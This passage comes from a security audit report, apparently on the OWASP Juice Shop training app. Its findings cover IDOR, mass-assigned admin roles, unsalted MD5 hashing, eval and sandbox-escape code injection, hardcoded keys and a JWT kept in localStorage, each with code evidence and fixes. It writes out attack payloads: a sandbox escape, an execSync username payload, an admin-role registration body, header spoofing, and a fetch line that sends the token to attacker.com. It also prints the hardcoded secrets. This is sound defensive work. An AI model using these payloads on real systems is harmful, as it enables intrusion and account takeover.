**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/wallet.ts:12

export function getWalletBalance () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const wallet = await WalletModel.findOne({ where: { UserId: req.body.UserId } })
    if (wallet != null) {
      res.status(200).json({ status: 'success', data: wallet.balance })
    } else {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/wallet.ts:24`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/wallet.ts:24
export function addWalletBalance () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const cardId = req.body.paymentId
    const card = cardId ? await CardModel.findOne({ where: { id: cardId, UserId: req.body.UserId } }) : null
    if (card != null) {
      try {
        await WalletModel.increment({ balance: req.body.balance }, { where: { UserId: req.body.UserId } })
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/wallet.ts:27`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/wallet.ts:27
    const card = cardId ? await CardModel.findOne({ where: { id: cardId, UserId: req.body.UserId } }) : null
    if (card != null) {
      try {
        await WalletModel.increment({ balance: req.body.balance }, { where: { UserId: req.body.UserId } })
        res.status(200).json({ status: 'success', data: req.body.balance })
      } catch {
        res.status(404).json({ status: 'error' })
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Mass-assignment role field enables privilege

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/user.ts:80`

**Issue:** The `UserModel` declares the `role` field at `models/user.ts:80` with a `validate.isIn` constraint but no setter-side block that prevents external callers from supplying the field. Any route handler that calls `UserModel.create(req.body)` or `UserModel.update(req.body, { where: { id: userId } })` without explicitly excluding the `role` key will persist an attacker-supplied role value (e.g., `role: 'admin'`).

The `set()` handler at line 86 reads the role value to adjust the profile image but does NOT reject or sanitize the incoming role - it only updates `profileImage` as a side-effect. Because Sequelize 6 does not automatically strip undeclared/protected fields, and because the model exposes `role` as a first-class writable field, any endpoint using bulk-assignment against the User model is vulnerable.

An authenticated user can elevate their own account to `admin` or `accounting` roles by including `role` in a profile-update request body.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `role` at `models/user.ts:80` is declared as a writable field with only an `isIn` range validator; no `readOnly` or explicit allowlist prevents external callers from overriding it.

```typescript
// models/user.ts:80
          this.setDataValue('password', security.hash(clearTextPassword)) // vuln-code-snippet vuln-line weakPasswordChallenge
        }
      }, // vuln-code-snippet end weakPasswordChallenge
      role: {
        type: DataTypes.STRING,
        defaultValue: 'customer',
        validate: {
```

**Fix:** ❶ [M-018](#m-018) — Enforce server-side field allowlist before every Sequelize User write to exclude the role field

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Password Hash with Insufficient Effort

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/user.ts:77`

**Issue:** The `User.password` setter at `models/user.ts:77` stores passwords via `security.hash(clearTextPassword)` which computes an unsalted `MD5` digest. `MD5` produces a 128-bit output crackable against large wordlists via GPU-accelerated rainbow tables in seconds to minutes for common passwords.

An attacker who gains read access to the SQLite file (through the intentional SQLi at `routes/login.ts:34`, a path traversal, or backup exposure) recovers plaintext passwords for the majority of user accounts. Because no salt is used, identical passwords produce identical hashes - allowing bulk cracking across the entire user table via a single lookup rather than per-user bruteforce.

All user passwords exposed via any database read path are immediately crackable, enabling account takeover across the full user base.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `User.password` setter at line 77 delegates to `security.hash()` which returns an unsalted `MD5` hex string.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❶ [M-020](#m-020) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** `routes/b2bOrder.ts:19` extracts `body.orderLinesData` with no structural validation and passes it to `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` at line 23. The `notevil` sandbox wraps arithmetic-expression evaluation but is defeatable via prototype pollution: a payload such as `{}.constructor.constructor('return process')()` or a chain that writes to `Object.prototype.__defineGetter__` can escape the sandbox context and access the `Node.js` `process` global.

Once outside the sandbox, the attacker has arbitrary server-side code execution at the privilege level of the `Node.js` process. The `rceChallenge` at line 31 confirms this attack path is intentionally wired in the application - the infinite-loop detection branch fires on successful exploitation.

Attacker achieves arbitrary server-side code execution as the `Node.js` process user - full server compromise, file system access, internal network access from the application container.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `body.orderLinesData` flows unsanitized from the request body into `vm.runInContext('safeEval(orderLinesData)', sandbox)` at `routes/b2bOrder.ts:23` with no allowlist, type check, or structural schema validation applied before the eval call.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Mass Assignment role Field User

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:419`

**Issue:** `POST /api/Users` is the open registration endpoint. The route handler at `server.ts:407-421` validates that `email`, `password`, and `passwordRepeat` are non-empty, then passes the entire `req.body` to the finale-rest auto-generated handler which calls `UserModel.create(req.body)`.

The `User` Sequelize model includes a `role` field. Since there is no field allowlist stripping `role` before model creation, a registration request `{ "email": "attacker@evil.com", "password": "pass123", "passwordRepeat": "pass123", "role": "admin" }` creates an admin-role account.

Any unauthenticated user can self-register an admin account, gaining access to all admin-protected API endpoints and the admin panel.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `POST /api/Users` body is passed to `UserModel.create()` via finale without a field allowlist, and the `role` field is writable on the User model.

```typescript
// server.ts:419
    }
    next()
  })
  app.post('/api/Users', verify.registerAdminChallenge())
  app.post('/api/Users', verify.passwordRepeatChallenge()) // vuln-code-snippet hide-end
  app.post('/api/Users', verify.emptyUserRegistration())
  /* Unauthorized users are not allowed to access B2B API */
```

**Fix:** ❶ [M-022](#m-022) — Exclude role field from user registration body before model creation

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Server-Side Template Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/userProfile.ts:62`

**Issue:** An authenticated attacker sets their username to a string matching the pattern `#{<expression>}`, such as `#{process.mainModule.require('child_process').execSync('id').toString()}`. When any authenticated user visits `/profile`, `userProfile.ts:55` detects the `#{...}` pattern, extracts `<expression>` at line 57, and passes it to `eval(code)` at line 62.

This eval executes in the full `Node.js` context - not inside a sandbox - with access to all process-level globals. The `eval` result (e.g., the output of `execSync`) replaces the username placeholder in the rendered Pug template, returning RCE output in the HTML response.

Any authenticated user achieves arbitrary server-side code execution, enabling data exfiltration, privilege escalation to OS-level, and persistence.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `eval(code)` at `userProfile.ts:62` executes attacker-controlled JavaScript extracted from the username field without sandboxing, with full process-level privilege.

```typescript
// routes/userProfile.ts:62
        if (!code) {
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
      }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-023](#m-023) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-95](https://cwe.mitre.org/data/definitions/95.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/deluxe.ts:25`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/deluxe.ts:25
        return
      }
      if (req.body.paymentMode === 'wallet') {
        const wallet = await WalletModel.findOne({ where: { UserId: req.body.UserId } })
        if ((wallet != null) && wallet.balance < 49) {
          res.status(400).json({ status: 'error', error: 'Insuffienct funds in Wallet' })
          return
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/deluxe.ts:30`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/deluxe.ts:30
          res.status(400).json({ status: 'error', error: 'Insuffienct funds in Wallet' })
          return
        } else {
          await WalletModel.decrement({ balance: 49 }, { where: { UserId: req.body.UserId } })
        }
      }

```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/deluxe.ts:35`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/deluxe.ts:35
      }

      if (req.body.paymentMode === 'card') {
        const card = await CardModel.findOne({ where: { id: req.body.paymentId, UserId: req.body.UserId } })
        if ((card == null) || card.expYear < new Date().getFullYear() || (card.expYear === new Date().getFullYear() && card.expMonth - 1 < new Date().getMonth())) {
          res.status(400).json({ status: 'error', error: 'Invalid Card' })
          return
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/memory.ts:15`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/memory.ts:15
    const record = {
      caption: req.body.caption,
      imagePath: 'assets/public/images/uploads/' + req.file?.filename,
      UserId: req.body.UserId
    }
    const memory = await MemoryModel.create(record)
    res.status(200).json({ status: 'success', data: memory })
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/payment.ts:21`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/payment.ts:21
export function getPaymentMethods () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const displayableCards: displayCard[] = []
    const cards = await CardModel.findAll({ where: { UserId: req.body.UserId } })
    cards.forEach(card => {
      const displayableCard: displayCard = {
        UserId: card.UserId,
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/payment.ts:41`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/payment.ts:41

export function getPaymentMethodById () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const card = await CardModel.findOne({ where: { id: req.params.id, UserId: req.body.UserId } })
    const displayableCard: displayCard = {
      UserId: 0,
      id: 0,
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/payment.ts:70`

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/payment.ts:70

export function delPaymentMethodById () {
  return async (req: Request, res: Response, next: NextFunction) => {
    const card = await CardModel.destroy({ where: { id: req.params.id, UserId: req.body.UserId } })
    if (card) {
      res.status(200).json({ status: 'success', data: 'Card deleted successfully.' })
    } else {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-017](#m-017) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

### 🟠 High (47)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Hardcoded Cryptographic Key

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts:44`

**Issue:** Two additional secrets are hardcoded in source: (1) the HMAC key `pa4qacea4VK9t9nGv7yZtwmj` at `lib/insecurity.ts:44`, used by `security.hmac()` to derive deluxe membership tokens and generate coupons. An attacker with this key can generate valid discount coupons for any month at any discount rate and forge deluxe membership tokens.

(2) The cookie-signing secret `'kekse'` at `server.ts:289` passed to `cookieParser('kekse')`. Attacker can forge valid coupons (financial loss), forge deluxe membership tokens (unauthorized feature access), and potentially forge signed cookies.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - HMAC key hardcoded at `lib/insecurity.ts:44` and cookie secret hardcoded at `server.ts:289` - both in public repository.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❷ [M-044](#m-044) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Cleartext Storage of Sensitive Data

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/user.ts:113`

**Issue:** The `User.totpSecret` field at `models/user.ts:113` is declared as `DataTypes.STRING` with no encryption setter or column-level protection. TOTP secrets are long-lived symmetric keys used to generate time-based one-time passwords.

Storing them in plaintext means that any database read exposure - SQLi, path traversal to `data/juiceshop.sqlite`, or a compromised backup - allows an attacker to clone the TOTP credential for every 2FA-enrolled user, permanently bypassing multi-factor authentication. Database read exposure allows permanent MFA bypass for all enrolled users by cloning their TOTP seeds into an authenticator app.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `User.totpSecret` at `models/user.ts:113` uses `DataTypes.STRING` with no transform; the raw TOTP seed bytes are stored in cleartext.

```typescript
// models/user.ts:113
        defaultValue: '/assets/public/images/uploads/default.svg'
      },
      totpSecret: {
        type: DataTypes.STRING,
        defaultValue: ''
```

**Fix:** ❷ [M-045](#m-045) — Stop storing sensitive data in cleartext

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:34`

**Issue:** The JWT authentication token is stored in `localStorage` (`localStorage.setItem('token', authentication.token)` at `oauth.component.ts:51`; read at `last-login-ip.component.ts:34`, `app.guard.ts:18`, `hacking-instructor/helpers/helpers.ts:173`). `localStorage` is readable by any JavaScript executing on the same origin.

Given that this SPA has multiple confirmed XSS sinks (stored XSS via feedback comments, lastLoginIp, DOM XSS in hacking instructor), a successful XSS payload can exfiltrate the JWT with `fetch('//attacker.com/?t='+localStorage.token)` - granting the attacker a fully authenticated session. Any XSS in the SPA results in full session token theft, enabling persistent account takeover without user interaction after the XSS is triggered.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - The JWT is written to `localStorage` and read from it across at least 4 components; no `HttpOnly` cookie or BFF pattern prevents JavaScript access.

**Fix:** ❸ [M-010](#m-010) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:346`

**Issue:** The password-reset rate limiter at `server.ts:343` uses `headers['X-Forwarded-For'] ?? ip` as the rate-limit key.

Because Express has `trust proxy` enabled (`server.ts:342`) and the application accepts arbitrary `X-Forwarded-For` values from untrusted clients, an attacker can trivially rotate the spoofed header (`X-Forwarded-For: 1.2.3.4`, `X-Forwarded-For: 1.2.3.5`, ...) to bypass the 100-request/5-min window and brute-force password-reset security answers at full request speed. Password-reset brute-force is unrestricted, enabling account takeover against any user whose security question answer is discoverable.

**Evidence:** ✓ verified - Rate-limit `keyGenerator` at `server.ts:346` trusts the raw `X-Forwarded-For` header value from the client, making the rate-limit window trivially bypassable.

```typescript
// server.ts:346
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-024](#m-024) — Rate-limit and lock out repeated authentication attempts

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Improper Authentication

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/app.routing.ts:262`

**Issue:** The Angular SPA uses Google OAuth implicit grant: `oauthMatcher` at `app.routing.ts:262` activates `OAuthComponent` whenever `window.location.href` contains `#access_token=`. No `state` parameter is generated before the redirect and no `state` value is validated on return.

An attacker can craft a malicious OAuth redirect URI that delivers a forged or stolen `access_token` in the fragment (CSRF on OAuth flow). An attacker can force a victim's browser to silently authenticate as the attacker (or as any OAuth-flow user) - resulting in account takeover or unauthorized access to victim session data.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The `oauthMatcher` function tests only `path.includes('#access_token=')` with no state check; the `OAuthComponent` immediately consumes `access_token` from the URL without verifying any anti-CSRF state parameter.

```typescript
// frontend/src/app/app.routing.ts:262
  }
  const path = window.location.href
  if (path.includes('#access_token=')) {
    return ({ consumed: url })
  }
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❸ [M-026](#m-026) — Harden the authentication flow

**Classification:** OAuth / OIDC Misconfiguration · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Missing Authentication

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Instances (3):** 🟠 `lib/startup/registerWebsocketEvents.ts:24`, 🟡 `lib/startup/registerWebsocketEvents.ts:37`, 🟠 `lib/startup/registerWebsocketEvents.ts:41`

**Issue:** The Socket\.IO server accepts connections from any client without verifying a JWT or session token at the handshake phase. `io.on('connection', (socket) => { ...

})` at line 24 of `lib/startup/registerWebsocketEvents.ts` fires for any TCP connection that completes the WebSocket upgrade — no `use()` middleware checks `socket.handshake.auth.token` or `socket.request.headers.authorization`. Any internet-connected client can forge challenge-solve events, receiving CTF flags and marking challenges solved in the database without performing the required exploit.

**Evidence:** ✓ verified - `io.on('connection', ...)` in `registerWebsocketEvents.ts` registers event handlers with no preceding `io.use()` authentication middleware, leaving all socket event handlers open to unauthenticated clients.

```typescript
// lib/startup/registerWebsocketEvents.ts:24
  globalWithSocketIO.io = io

  io.on('connection', (socket: any) => {
    if (firstConnectedSocket === null) {
      socket.emit('server started')
```

**Fix:** ❷ [M-027](#m-027) — Add JWT authentication middleware to Socket\.IO connection handshake

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:41`

**Issue:** The password reset flow validates the security answer by comparing `security.hmac`(answer) to the stored hash. `security.hmac()` at `lib/insecurity.ts:44` uses the hardcoded key 'pa4qacea4VK9t9nGv7yZtwmj'.

Since this key is public (source committed to GitHub), an attacker can pre-compute HMAC values for every plausible answer to any security question offline. Attacker resets any user's password by pre-computing HMAC of guessed security answers, gaining full account control.

**Evidence:** ✓ verified - Hardcoded HMAC key 'pa4qacea4VK9t9nGv7yZtwmj' at `lib/insecurity.ts:44` is used to authenticate security answers; rate limiting relies on a spoofable header.

```typescript
// routes/resetPassword.ts:41
        }]
      })
      if ((data != null) && security.hmac(answer) === data.answer) {
        const user = await UserModel.findByPk(data.UserId)
        if (user) {
```

**Fix:** ❸ [M-028](#m-028) — Replace security-question reset with time-limited emailed token and remove hardcoded HMAC key

**Classification:** Denial of Service · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Password Hash with Insufficient Effort

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** `lib/insecurity.ts:43` defines `hash()` as crypto.createHash('md5').update(data).digest('hex'). All user passwords are stored as unsalted `MD5` hashes.

